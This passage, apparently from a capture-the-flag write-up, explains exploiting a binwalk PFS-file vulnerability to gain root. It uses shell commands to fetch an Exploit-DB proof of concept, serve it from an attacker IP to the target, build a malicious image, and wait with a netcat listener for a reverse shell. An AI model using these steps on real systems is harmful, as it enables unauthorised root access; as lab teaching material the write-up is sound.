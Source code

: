 ### Exploitation

First of all, PFS is a kinda obscure file format. His creator, Peter
"Lekensteyn", built it to use handle files on a Siemens Router[^6]. We can set up our own malicious file with it's own tool, the [`pfstool`](https://lekensteyn.nl/files/pfs/). This approach can give us a good deep dive on how this vulnerability occurs, but at a cost: a lot of time and effort. For now, let's use something already done. 

[Etienne Lacoche](https://www.linkedin.com/in/etiennelacoche/?originalSubdomain=fr) made a [exploit](https://www.exploit-db.com/exploits/51249) which embeds the PFS file content into a image, containing the handmade plugin that will connect the server into our machine. When we send the malicious photo (directly on the shrunk directory), the server will execute the `malwarescan.sh`, using the vulnerable binwalk binary and giving us root access.

Let's download the PoC to our machine: 

```shell
curl https://www.exploit-db.com/raw/51249 > exploit.py
```

You can choose any image at your taste. I'm gonna use the [Dark Side Of The Moon](https://www.youtube.com/watch?v=k9ynZnEBtvw) cover (my little tribute to one of the best albums I've ever heard).

<iframe style="border-radius:12px" src="https://open.spotify.com/embed/album/4LH4d3cOWNNsVw41Gqt2kv?utm_source=generator" width="100%" height="352" frameBorder="0" allowfullscreen="" allow="autoplay; clipboard-write; encrypted-media; fullscreen; picture-in-picture" loading="lazy"></iframe>

```shell
curl https://upload.wikimedia.org/wikipedia/pt/3/3b/Dark_Side_of_the_Moon.png > image.png
```

We can transfer both files to the server in many ways. I'm gonna host a simple web server and get the files through curl, but you can also use the `scp` command. 

```shell
php -S 0.0.0.0:8000
```

On the **server**, let's create a folder a retrieve all these files to it.

```shell
mkdir /tmp/.secret && cd /tmp/.secret
curl http://10.10.14.207:8000/exploit.py > exploit.py
curl http://10.10.14.207:8000/image.png > image.png
```

You can close the PHP server with `Control + C`.

Let's bake the malicious image:

```shell
python3 exploit.py image.png 10.10.14.207 8000
```

Wait for a connection (on your machine):

```shell
nc -lvp 8000
```


[^1]: Git is a software for developers to create code, registering and tracking all the changes. When used, Git creates a `.git` directory to store data about the changes. If the contents of `.git` are public, we can get the source code of the app.
[^2]: See the `FILTER_SANITIZE_STRING` section on the [PHP documentation](https://www.php.net/manual/en/filter.filters.sanitize.php). 
[^3]: Read more on the [MetabaseQ article](https://www.metabaseq.com/imagemagick-zero-days/).
[^4]: Before written my own Python script, I've used a Rust version of it. Make sure to [check it out](https://github.com/voidz0r/CVE-2022-44268). 
[^5]: To confirm if the emily was a user on the machine, we can check the `/etc/passwd` file.
[^6]: More info [here](https://lekensteyn.nl/files/pfs/pfs.txt).
[^7]: https://www.reddit.com/r/privacy/comments/9yzya4/lightshot_millions_of_screenshots_available_to/